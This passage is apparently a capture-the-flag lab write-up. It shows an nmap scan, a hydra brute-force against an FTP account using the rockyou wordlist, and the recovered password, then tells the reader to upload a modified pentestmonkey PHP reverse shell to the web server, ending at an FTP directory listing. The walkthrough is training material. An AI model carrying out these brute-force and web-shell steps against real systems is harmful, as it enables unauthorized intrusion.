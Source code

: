 First thing is to scan the target. there are 2 open ports, 1 of which is FTP.

~~~
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
~~~

Let's replicate the hydra attack we've analyzed previously:

~~~
kali@kali:/data/hacked/files$ hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.255.63
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-04 07:51:28
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.255.63:21/
[21][ftp] host: 10.10.255.63   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-04 07:51:53
~~~

Jenny's password is `987654321`

## Change the necessary values inside the web shell and upload it to the webserver

Connect as `jenny`. You'll notice that we have write access to the folder. Download the PHP reverse shell from [pentestmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) modify the IP and port, and upload it to the server.

~~~
kali@kali:/data/hacked/files$ ftp 10.10.255.63
Connected to 10.10.255.63.
220 Hello FTP World!
Name (10.10.255.63:kali): jenny
331 Please specify the password.
Password: 987654321
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1000     1000         4096 Feb 01 22:26 .
drwxr-xr-x    3 0        0            4096 Feb 01 21:54 ..
-rw-r--r--    1 1000     1000        10918 Feb 01 21:54 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01 22:26 shell.php
226 Directory send OK.
ftp> 
~~~
